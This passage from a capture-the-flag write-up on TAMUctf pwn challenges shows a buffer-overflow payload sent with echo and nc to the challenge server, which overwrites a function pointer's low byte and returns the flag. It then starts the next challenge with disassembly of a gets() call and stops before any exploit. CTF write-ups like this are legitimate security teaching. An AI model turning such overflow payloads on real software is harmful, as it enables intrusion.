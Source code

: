 So we have again a bufferoverflow where the goal is to overwrite v3 with the address
of the print_flag function.

We will fill the buffer (30bytes) and overwrite the value of v3

As the address of the "print_flag" function is only one byte different from the address of the "two" function, we only need to write the LSB.

`function two's address: 0x000006AD`
`function print_flag's address: 0x000006D8`

(addresses found with IDA)

The payload will therefore be [30bytes of junk][LSB of the address to write]

Let's craft and run it!


~~~ 
echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xd8" |  nc pwn.tamuctf.com 4322
Which function would you like to call?
This function is still under development.
gigem{4ll_17_74k35_15_0n3}
~~~ 

## Pwn 3


The given file is a 32bits elf.

Find the binary here: [pwn3](/assets/sources/tamuctf/pwn3)

The program itself leak an address.

~~~ 
./pwn3
Take this, you might need it on your journey 0xffab239e!
AAAA
~~~ 


Let's decompile it to see what's about.

~~~ java
public echo
echo proc near

s= byte ptr -12Ah
var_4= dword ptr -4

push    ebp
mov     ebp, esp
push    ebx
sub     esp, 134h
call    __x86_get_pc_thunk_bx
add     ebx, 1A20h
sub     esp, 8
lea     eax, [ebp+s]
push    eax
lea     eax, (aTakeThisYouMig - 1FCCh)[ebx] ; "Take this, you might need it on your jo"...
push    eax             ; format
call    _printf
add     esp, 10h
sub     esp, 0Ch
lea     eax, [ebp+s]
push    eax             ; s
call    _gets
add     esp, 10h
nop
mov     ebx, [ebp+var_4]
leave
~~~